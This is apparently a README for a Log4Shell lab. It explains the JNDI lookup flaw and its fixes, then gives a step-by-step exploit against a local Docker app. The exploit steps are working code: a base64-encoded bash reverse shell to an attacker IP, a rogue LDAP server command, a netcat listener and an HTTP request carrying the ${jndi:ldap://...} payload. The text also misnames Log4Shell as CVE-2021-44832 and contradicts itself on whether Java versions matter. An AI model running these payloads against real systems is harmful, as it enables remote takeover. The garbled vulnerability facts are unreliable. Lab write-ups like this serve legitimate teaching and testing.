

# Log4Shell lab

## Vulnerability explanation

#TODO basic info

This vulnerability allows for remote code execution (RCE) via the manipulation of log message formats. Specifically, the exploit involves the use of a malicious LDAP server to inject arbitrary code into a vulnerable Java application.

When a user input or a specific HTTP header (like `User-Agent`) that contains a JNDI lookup string is logged by the vulnerable application, the Log4j library processes this string and performs a lookup to the specified LDAP server. In this exploit, the attacker's LDAP server responds with a payload that leads to the execution of arbitrary code on the application server.

To get RCE from the Log4j vulnerability, we rely on code injection possibilities via a malicious JNDI server. This depends on the Java version or other dependencies running on the victim. This means that the RCE may not work in certain contexts, while the victim still uses a vulnerable version of Log4j. For more information, see [here](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

## Vulnerability fix

The vulnerability is addressed in Log4j version 2.17.1 and later. As reported by [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44832), Apache Log4j (`log4j-core`) versions up to 2.14.1 are potentially vulnerable. Avoid using any of these versions explicitly, or as a _transitive dependency from other packages_ such as Spring Boot.

```groovy
// Vulnerable to CVE-2021-44832!
// Spring Boot 2.5.1 installs Log4j 2.14.1
plugins {  
    id 'java'  
    id 'org.springframework.boot' version '2.5.1'  
    id 'io.spring.dependency-management' version '1.0.11.RELEASE'  
}
```

For applications that cannot be immediately updated, modify the Log4j configuration to disable JNDI lookups. This can be achieved by setting the system property `log4j2.formatMsgNoLookups` to `true` or by removing the JNDI lookup class from the classpath.

The vulnerability is independent of Java versions, so any Java runtime that uses a vulnerable Log4j can be exploited.

## Steps to exploit the vulnerable app


### Vulnerable app setup

Package the vulnerable application with Gradle and run it in a Docker container.

```bash
tom@MacBook:~/workspace/security/log4shell-lab# docker-compose up
```

We can verify that the application is vulnerable to CVE-2021-44832 by including the lookup string `${java:os}` in the login page at `http://localhost:8080`.


The logs show that the lookup string is resolved.


### Exploit steps

Prepare a malicious LDAP server for JNDI injection attacks, for example [rogue-jndi](https://github.com/veracode-research/rogue-jndi). The Java version used to build the project does not need to correspond to the version running the vulnerable application.

The malicious LDAP server is configured to receive a specific command sequence. This command is then embedded into the code that is dynamically compiled and executed by the victim's system, effectively allowing the attacker's code to run on the target machine.

```bash
bash -c {echo,$base64EncodedCommand}|{base64,-d}|{bash,-i}
```

The variable `base64EncodedCommand` will contain a bash TCP reverse shell connecting to the host IP 192.168.5.2 at port 443.

```bash
tom@MacBook:~/workspace/security/rogue-jndi# echo 'bash -c bash -i >& /dev/tcp/192.168.5.2/443 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==
```

Start the malicious LDAP server with the embedded command.

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "192.168.5.2" --httpPort 8888
```

Start a Netcat listener on the attacker.

```bash
nc -lnvp 443
```

Trigger the exploit by using a JNDI lookup string that targets our malicious LDAP server.

```bash
${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

The vulnerable application has two vulnerable parameters. The exploit can be triggered via the username field or via the `User-Agent` header.

```http
POST /login HTTP/1.1
Host: localhost:8080
User-Agent: ${jndi:ldap://192.168.5.2:1389/o=tomcat}
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/

username=log4shell
```

We get a shell connection into the Docker container.


## Ethical consideration and responsible use

This tutorial, including all code and documentation, is provided for educational and research purposes only. It aims to enhance understanding of cybersecurity vulnerabilities, defensive strategies, and the importance of maintaining secure systems. The demonstration of the Log4Shell vulnerability is intended to inform developers, security professionals, and educational institutions about the risks and mitigation techniques related to this and similar vulnerabilities.

---

Resources:
- https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot
- [Hack The Box | Unified](https://help.hackthebox.com/en/articles/6007919-introduction-to-starting-point)
